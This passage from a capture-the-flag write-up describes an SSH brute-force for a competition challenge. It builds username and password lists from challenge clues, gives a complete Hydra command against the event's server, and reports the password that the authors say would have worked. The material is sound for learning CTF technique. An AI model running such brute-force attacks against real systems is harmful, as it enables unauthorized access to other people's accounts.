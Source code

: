 **<u>Note:</u>** we didn't actually get the flag for this challenge even though we had solved it, since the server was constantly swamped by other players' attempts and we eventually moved on to more stimulating problems. This is one of the reasons why you don't design challenges around bruteforcing (unless they are backdoored, I guess?).

---

Given the clues found in Part 2 (`the magic phrase "abracadabra" [...] Crystal Ball, Wade Coldwater, Jay Walker, and Holly Wood all basically have the same password [...] at least get them append a special character`) and the username format seen in Part 1 (`jwalker`), a list of usernames and passwords could be built trivially:

```plaintext
cball
wcoldwater
jwalker
hwood
```
```plaintext
abracadabra~
abracadabra`
abracadabra!
abracadabra@
abracadabra#
abracadabra$
abracadabra%
abracadabra^
abracadabra&
abracadabra*
abracadabra(
abracadabra)
abracadabra_
abracadabra+
abracadabra=
abracadabra{
abracadabra}
abracadabra[
abracadabra]
abracadabra|
abracadabra\
abracadabra;
abracadabra:
abracadabra'
abracadabra"
abracadabra<
abracadabra>
abracadabra,
abracadabra.
abracadabra?
abracadabra/
```

Running Hydra (albeit slowly, as the admins requested: `hydra -t 1 -W 0.1 -l users.txt -p passwds.txt -u -s 8822 betta.utctf.live ssh`) would have unveiled that the correct password for the user `wcoldwater` was `abracadabra$`, but unfortunately our timeslots didn't align with the server's availability.

🏁 _N/A 😢_{:.spoiler}

